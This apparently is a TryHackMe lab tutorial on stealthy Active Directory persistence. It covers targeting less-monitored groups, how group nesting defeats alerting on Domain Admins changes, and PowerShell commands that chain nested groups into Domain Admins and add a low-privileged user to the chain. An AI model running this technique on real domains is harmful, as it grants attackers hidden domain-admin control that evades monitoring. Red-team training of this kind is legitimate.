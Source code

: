 If we don't want to tamper with SID histories, we can just add ourselves directly to AD groups for persistence. While SID history is a great persistence technique, credential rotation and cleanup can still remove our persistence. In certain cases, it may be better to perform persistence by targeting the AD groups themselves.

While privileged accounts or groups like Domain Admins and Enterprise Admins provide significant power, they are also heavily monitored and scrutinized. To persist undetected, it’s often more effective to target less-obvious groups that still offer useful privileges:

- **IT Support Groups**: Membership in these groups can allow actions like forcing password changes. While privileged accounts may be off-limits for resets, gaining control over low-privileged accounts can help spread access across workstations.
- **Groups with Local Administrator Rights**: These groups are generally less monitored than protected groups. By targeting a network support group that grants local admin rights to key hosts, you can establish persistence with access that may later be leveraged to re-compromise the domain.
- **Groups with Indirect Privileges**: Sometimes, groups that control specific resources, like ownership of Group Policy Objects (GPOs), can be just as effective. Manipulating GPOs can provide indirect but powerful control over the environment.


## Nested Groups
In many organizations, there are **recursive groups**, meaning a group is a member of another group. This is called **group nesting**, and it helps organize Active Directory (AD). For example, the "IT Support" group might include subgroups like "Helpdesk," "Access Card Managers," and "Network Managers." These subgroups are added as members of "IT Support," so all users in the subgroups inherit the permissions of "IT Support." At the same time, the subgroups can have their own specific permissions.

While group nesting keeps AD organized, it can hide **who has access to what**. For example, if you check the members of "IT Support," you might only see the three subgroups, not the actual users. To find the real number of users, you'd need to check each subgroup—and any subgroups inside them. This can make it harder to track access accurately.

This also affects monitoring. Imagine you have an alert that triggers when someone is added to the "Domain Admins" group. If someone adds a user to a subgroup within "Domain Admins," the alert won’t fire because it’s only tracking direct changes. This happens often due to miscommunication between the AD team and the InfoSec team.

Attackers can exploit this reduced visibility. Instead of adding themselves to a highly monitored group like "Domain Admins," they add themselves to a subgroup, avoiding detection. This gives them the same access but without raising any alerts.

## Nesting Our Persistence 
Let's simulate this type of persistence. In order to allow other users also to perform the technique, make sure to prepend your username to all the groups that you create. In order to simulate the persistence, we will create some of our own groups.

Let's start by creating a new base group that we will hide in the People->IT Organisational Unit (OU):
```markup
PS C:\Users\Administrator.ZA>New-ADGroup -Path "OU=IT,OU=People,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "{username} Net Group 1" -SamAccountName "{username}_nestgroup1" -DisplayName "{username} Nest Group 1" -GroupScope Global -GroupCategory Security
```

Let's now create another group in the People->Sales OU and add our previous group as a member:
```markup
PS C:\Users\Administrator.ZA>New-ADGroup -Path "OU=SALES,OU=People,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "{username} Net Group 2" -SamAccountName "{username}_nestgroup2" -DisplayName "{username} Nest Group 2" -GroupScope Global -GroupCategory Security 

PS C:\Users\Administrator.ZA>Add-ADGroupMember -Identity "{username}_nestgroup2" -Members "{username}_nestgroup1"
```

We can do this a couple more times, every time adding the previous group as a member:
```markup
PS C:\Users\Administrator.ZA> New-ADGroup -Path "OU=CONSULTING,OU=PEOPLE,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "<username> Net Group 3" -SamAccountName "<username>_nestgroup3" -DisplayName "<username> Nest Group 3" -GroupScope Global -GroupCategory Security

PS C:\Users\Administrator.ZA> Add-ADGroupMember -Identity "<username>_nestgroup3" -Members "<username>_nestgroup2"

PS C:\Users\Administrator.ZA> New-ADGroup -Path "OU=MARKETING,OU=PEOPLE,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "<username> Net Group 4" -SamAccountName "<username>_nestgroup4" -DisplayName "<username> Nest Group 4" -GroupScope Global -GroupCategory Security

PS C:\Users\Administrator.ZA> Add-ADGroupMember -Identity "<username>_nestgroup4" -Members "<username>_nestgroup3"

PS C:\Users\Administrator.ZA> New-ADGroup -Path "OU=IT,OU=PEOPLE,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "<username> Net Group 5" -SamAccountName "<username>_nestgroup5" -DisplayName "<username> Nest Group 5" -GroupScope Global -GroupCategory Security

PS C:\Users\Administrator.ZA> Add-ADGroupMember -Identity "<username>_nestgroup5" -Members "<username>_nestgroup4
```

With the last group, let's now add that group to the Domain Admins group:
```markup
PS C:\Users\Administrator.ZA>Add-ADGroupMember -Identity "Domain Admins" -Members "{username}_nestgroup5"
```

Lastly, let's add our low-privileged AD user to the first group we created:
```markup
PS C:\Users\Administrator.ZA>Add-ADGroupMember -Identity "<username>_nestgroup1" -Members "{low privileged username}"
```

Instantly, your low-privileged user should now have privileged access to THMDC. Let's verify this by using our SSH terminal on THMWRK1:
```markup
za\aaron.jones@THMWRK1 C:\Users\aaron.jones>dir \\thmdc.za.tryhackme.loc\c$\ 
 Volume in drive \\thmdc.za.tryhackme.loc\c$ is Windows 
 Volume Serial Number is 1634-22A9

 Directory of \\thmdc.za.tryhackme.loc\c$

01/04/2022  08:47 AM               103 delete-vagrant-user.ps1     
05/01/2022  09:11 AM               169 dns_entries.csv
09/15/2018  08:19 AM    <DIR>          PerfLogs
05/11/2022  10:32 AM    <DIR>          Program Files
03/21/2020  09:28 PM    <DIR>          Program Files (x86)
05/01/2022  09:17 AM             1,725 thm-network-setup-dc.ps1    
04/25/2022  07:13 PM    <DIR>          tmp
05/15/2022  09:16 PM    <DIR>          Tools
04/27/2022  08:22 AM    <DIR>          Users
04/25/2022  07:11 PM    <SYMLINKD>     vagrant [\\vboxsvr\vagrant] 
04/27/2022  08:12 PM    <DIR>          Windows
               3 File(s)          1,997 bytes
               8 Dir(s)  51,573,755,904 bytes free
```

Let's also verify that even though we created multiple groups, the Domain Admins group only has one new member:
```markup
PS C:\Users\Administrator.ZA> Get-ADGroupMember -Identity "Domain Admins"


distinguishedName : CN=Administrator,CN=Users,DC=za,DC=tryhackme,DC=loc
name              : Administrator
objectClass       : user
objectGUID        : 0bbd7980-b53b-4634-8a28-57e4234655c2
SamAccountName    : Administrator
SID               : S-1-5-21-3885271727-2693558621-2658995185-500

distinguishedName : CN=Am0 Net Group 5,OU=IT,OU=People,DC=za,DC=tryhackme,DC=loc
name              : Am0 Net Group 5
objectClass       : group
objectGUID        : ba545574-6af9-4a3d-a8df-24ab582fc04c
SamAccountName    : am0_nestgroup5
SID               : S-1-5-21-3885271727-2693558621-2658995185-6163
```

**Annoying More Than Just The Blue Team**  
If this was a real organisation, we would not be creating new groups to nest. Instead, we would make use of the existing groups to perform nesting. However, this is something you would never do on a normal red team assessment and almost always dechain at this point since it breaks the organisation's AD structure, and if we sufficiently break it, they would not be able to recover. At this point, even if the blue team was able to kick us out, the organisation would more than likely still have to rebuild their entire AD structure from scratch, resulting in significant damages.